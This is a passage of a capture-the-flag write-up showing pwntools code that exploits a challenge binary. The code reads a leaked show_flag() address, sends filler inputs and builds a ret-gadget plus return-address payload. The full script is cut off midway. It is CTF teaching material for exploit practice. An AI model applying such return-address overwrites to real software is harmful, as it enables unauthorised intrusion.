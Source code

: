 Next we need to feed the first 3 iterations with valid inputs.

```python
io.recvuntil(b'Enter the name of ingredient 1: ')
io.sendline(b'a')
io.recvuntil(b'Enter the calories per gram for a: ')
io.sendline(b'1.2')
io.recvuntil(b'Enter the amount in grams for a: ')
io.sendline(b'1.3')

io.recvuntil(b'Enter the name of ingredient 2: ')
io.sendline(b'a')
io.recvuntil(b'Enter the calories per gram for a: ')
io.sendline(b'1.4')
io.recvuntil(b'Enter the amount in grams for a: ')
io.sendline(b'2.0')

io.recvuntil(b'Enter the name of ingredient 3: ')
io.sendline(b'a')
io.recvuntil(b'Enter the calories per gram for a: ')
io.sendline(b'3.1')
io.recvuntil(b'Enter the amount in grams for a: ')
io.sendline(b'2.3')
```

There is much simpler way to do it, But just let it slide for once. ;D


Next is the payload, which is the `show_flag()` address. Currently what we have is the address in integer format, we need to send the payload in a suitable format as input. `pwntools` has a function for this which is `p64(<show_flag() address>)`. However, due to stack allignment issues, we need to include a `ret` gadget before the `show_flag()` address to avoid unnecessary headache. For the sack of keeping this writeup not too long, this [tutorial](https://shantoroy.com/security/using-ropper-to-find-address-of-gadgets/) shows how to use `ropper`.

```python
base_add =  flag - elf.sym['show_flag']
ret = base_add + 0x101a
payload = p64(ret)
payload += p64(flag)

```

Now its time to put everything together. Here is the full script

```python 
from pwn import *
if args.REMOTE:
    io = remote(sys.argv[1],sys.argv[2])
else:
    io = process("./chall", )
elf = context.binary = ELF("./chall", checksec=False)
rop = ROP(elf)
context.log_level = 'debug'

io.recvuntil(b'hint: show_flag = ')
flag = int(io.recvline().strip(), 16)
print(f'Flag: {hex(flag)}')

io.recvuntil(b'Enter the name of ingredient 1: ')
io.sendline(b'a')
io.recvuntil(b'Enter the calories per gram for a: ')
io.sendline(b'1.2')
io.recvuntil(b'Enter the amount in grams for a: ')
io.sendline(b'1.3')

io.recvuntil(b'Enter the name of ingredient 2: ')
io.sendline(b'a')
```